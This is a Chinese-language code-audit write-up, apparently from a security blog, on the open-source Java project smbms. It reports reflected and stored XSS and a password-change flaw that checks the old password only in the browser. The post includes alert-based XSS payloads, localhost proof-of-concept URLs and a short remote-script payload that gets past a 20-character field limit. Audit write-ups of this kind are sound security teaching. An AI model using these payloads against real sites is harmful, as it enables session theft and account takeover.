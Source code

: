 #  java代码审计之smbms  
德鲁骚  实战安全研究   2025-07-19 02:00  
  
# 项目地址  
  
https://github.com/wuxinyu3366/smbms  
# 代码审计  
  
这是学狂神java的一个项目，也是边学java边学代码审计吧  
项目功能点也比较少，而且sql语句采用了预编译，但是还是有些漏洞  
## Referer处存在xss  
### 漏洞分析  
  
全局搜索  
<%=  
发现在head.jsp处存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1Ua96mEPrXovDib3NBIaIudK999I3wNvuhRDiczbVxN2TTBeAOibytyibJ8Vw/640?wx_fmt=png&from=appmsg "")  
  
这里很明显Referer处可控，会导致xss。所以在平常渗透测试中也可以fuzz这些地方  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaEEECtF1cFuI246ibNDeJPsG9I5Faicaqaca5pHjsP4f6MbLJfuX83mYA/640?wx_fmt=png&from=appmsg "")  
### 漏洞复现  
  
后台中很多都调用了这个head.jsp, 多处存在xss  
找个点测试一下  
```
"><ScRiPt>alert(1)</sCrIpT>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UamROu09Rh9p1JCfMKsiaiaUhBDj07oXcaTNAOzCmDic6S4ONRhGzvSApIA/640?wx_fmt=png&from=appmsg "")  
  
执行成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1Ua55pe9knCiaicVBaK6gIPRSicpygHOrHicVMVjB8oNfgX7n3dYVo0aGqFDg/640?wx_fmt=png&from=appmsg "")  
## 第二处xss  
### 漏洞分析  
  
全局搜索 getParameter  
queryProductName为getParameter 获取的参数  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaYHL8ZBjgCZQxDpXpca6kFIzAQibQSk9icPCMhVrzfrKszibhicYVZED0Rg/640?wx_fmt=png&from=appmsg "")  
  
BillServlet注册servlet的url路径为/jsp/bill.do  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1Ua1Puf3utpb0hth3JPGjib9Tr3F7BZryEp40gWoWUiaevaauAr5LohgQuw/640?wx_fmt=png&from=appmsg "")  
  
在billlist.jsp中调用的方法有/jsp/bill.do  
然后打印到如下的 jsp 代码中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1Ua5EyWEeAyNMBQQq9Nw7ialk4F9ic3RQmNZDujpP0K51NVLm37tnvIy3Sg/640?wx_fmt=png&from=appmsg "")  
### 漏洞复现  
```
http://localhost:8080/jsp/bill.do?method=query&queryProductName=%22%3E%3CScRiPt%3Ealert%281%29%3C%2FsCrIpT%3E&queryProviderId=0&queryIsPayment=0
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaenMuHx0y43Q472yaq9Pgdv8icpyF7JhFGPUibgkRp5XgHdLFa8k1r2LQ/640?wx_fmt=png&from=appmsg "")  
## 第三处xss  
### 漏洞分析  
  
全局搜索 getParameter  
queryProCode、queryProName为getParameter 获取的参数  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaEjDO0L5IVSw5zctbFcy6nRmicTqqXwa587ibYlm0JniciapwFt4AkKmE8w/640?wx_fmt=png&from=appmsg "")  
  
ProviderServlet注册servlet的url路径为/jsp/provider.do  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaN1hJwwEon7lXhlQqlkBCR1rGFJrMia4PFf4FhDO6rV4lwX8P4zsnjEg/640?wx_fmt=png&from=appmsg "")  
  
在providerlist.jsp中调用的方法有/jsp/provider.do  
然后打印到如下的 jsp 代码中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UakdBIiak7QYmS1o36xgbsjIDjcEyGCeiatQ9lic5aeIkjaWjLkRw8qqhOA/640?wx_fmt=png&from=appmsg "")  
### 漏洞复现  
```
http://localhost:8080/jsp/provider.do?method=query&queryProCode=%22%3E%3CScRiPt%3Ealert%281%29%3C%2FsCrIpT%3E&queryProName=
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1Ua4bu7TNbialrg1dfMz218lq5W81iaVDY7HQWgZDSjbp6rbnLzEHCtFqOQ/640?wx_fmt=png&from=appmsg "")  
## 第四处xss  
### 漏洞分析  
  
全局搜索 getParameter  
queryname为getParameter 获取的参数  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UazZa3SDvpUtyjJFAbmzEclevmK0JibKS5oem2Hn9Q0cSTOcah9gM8ZLQ/640?wx_fmt=png&from=appmsg "")  
  
UserServlet注册servlet的url路径为/jsp/user.do  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaywGRehx8CcZFd6x8mtDwWzvZ2cKu7FoTyFyPlsPtjHlNtpochobn9g/640?wx_fmt=png&from=appmsg "")  
  
在providerlist.jsp中调用的方法有/jsp/provider.do  
然后打印到如下的 jsp 代码中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaByXncHSe8UzyLibgdmWQ7IxWiaE2ic37UGtNaIvWia4BPgawUlhMgGbuLQ/640?wx_fmt=png&from=appmsg "")  
### 漏洞复现  
```
http://localhost:8080/jsp/user.do?method=query&queryname=%22%3E%3CScRiPt%3Ealert%281%29%3C%2FsCrIpT%3E&queryUserRole=0&pageIndex=1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaVFib3d02OKuIyLMYclicLzl6DyiaiabA7c5Rj0VDN1yogdLpVzsicfFNm4w/640?wx_fmt=png&from=appmsg "")  
## 存储型xss  
### 漏洞分析  
  
全局搜索数据库的插入语句(关键词:insert,save,update)，然后全局搜索该方法在哪里被调用，一层层的跟踪。直到 getParamter()方法获取请求参数的地方停止。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaI88qOglNYvSiaNuVEleeKJbqNXhfxopL3h5jGerCkRSEjV4kv11tt0g/640?wx_fmt=png&from=appmsg "")  
  
从getParamter 关键词开始 ，跟踪请求参数，直到插入数据库的语句，如果中间没有过滤参数，则存在存储型 XSS  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1Ua6WLAiahkLtI6T8S7HMljpmcmoiaM1cf7e2WSVaHoeF2EibCD1Dd4ibLXCA/640?wx_fmt=png&from=appmsg "")  
### 漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaAQVZMz0kicGb8YEUVmM3bN4j3CwXA5GQgc3p7qCxsbprGB1XtQ7qXsA/640?wx_fmt=png&from=appmsg "")  
  
保存之后，再点击供应商的详情直接触发了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UasjIbQHWBcdbe6UfDkVQcIzlDKpyiaZjf8v6d0MbT6GaVxeMwJ3oXlZQ/640?wx_fmt=png&from=appmsg "")  
## 存储型xss之长度绕过  
  
这里肯定会奇怪我为什么没有插入到供应商编码或者供应商名称这些地方。这就跟数据库有关系了，虽然中间没有过滤参数，但是数据库有的地方定义的数字类型，字符串是不行的。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UalOF1VibDic8XZEw4gp4xDwAIsciaL0TkyeZnpznFNKZbib4jNqyEDaDoEg/640?wx_fmt=png&from=appmsg "")  
  
还有就是数据库中定义了字符串的长度为20，这就要使xss的语句小于20，但是常规的都是比它大的，这里就要绕过了。  
参考这里  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UasuOuoEjxjtgRcvSn976wS4N7sy2RfoSiafPMJxqoTpvicrrcOme0Xqug/640?wx_fmt=png&from=appmsg "")  
  
<script/src=//⑭.₨>，只有18个字符。其中₨代表印度卢比，这是1个字符，而不是2个字符，而⑭也是类似的效果。下面测试一下效果  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaNicmWVR7Ply1icPeab2Sr1mial6JQMkOUfMIwP3TUqRxgEZ78cVBxHh6g/640?wx_fmt=png&from=appmsg "")  
  
每次刷新查询供应商界面的时候都会触发xss  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaFBjicSJWLWXzADvt2DRDdjTM9GkIu1Gliaw5HfS2GoFjjq95ibxtgVibFA/640?wx_fmt=png&from=appmsg "")  
## 任意密码修改  
### 漏洞分析  
  
后台密码修改处存在一个输入旧密码就能判断是否正确的功能  
效果如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UathFoPFwvTRmnMNt34zcOBFKVV3CMtHYFd6Mm1wXl3eUOGWCoiaEnYiag/640?wx_fmt=png&from=appmsg "")  
  
实现这个是在js中利用了一段ajax去处理数据  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1Uaw8q7fHvp1L1AC9MPic0pjlEf6TaYbqnlcHxGJpCfIu5xKxicdhurNqCw/640?wx_fmt=png&from=appmsg "")  
  
然后旧密码，新密码，确认新密码这三段都为true，就可以执行修改密码的方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaF6ugiczSS5cj9ibcLVJZgOvJXqnTJ1wibspysN4icF7cfaFRFtT0I7rlHg/640?wx_fmt=png&from=appmsg "")  
  
既然这里前端认证，那这个旧密码完全就可以不用填写，直接写新密码就行了  
### 漏洞复现  
  
直接构造修改密码的数据包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1Ual1DM09a9Ifd2l3OfB9v66d7vK03UibJ5R9YBT4IugTGdAz9ZyOofeng/640?wx_fmt=png&from=appmsg "")  
  
发现密码修改成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF1OC3jrhzDFu2bVOCVbV1UaXflyLkr1VmyS3F59MUdO24LE0K54H8VKpicksnqIyPTO9FxhCnvAvCg/640?wx_fmt=png&from=appmsg "")  
```
作者：德鲁骚
原文链接：https://xz.aliyun.com/news/11672
```  
  
  
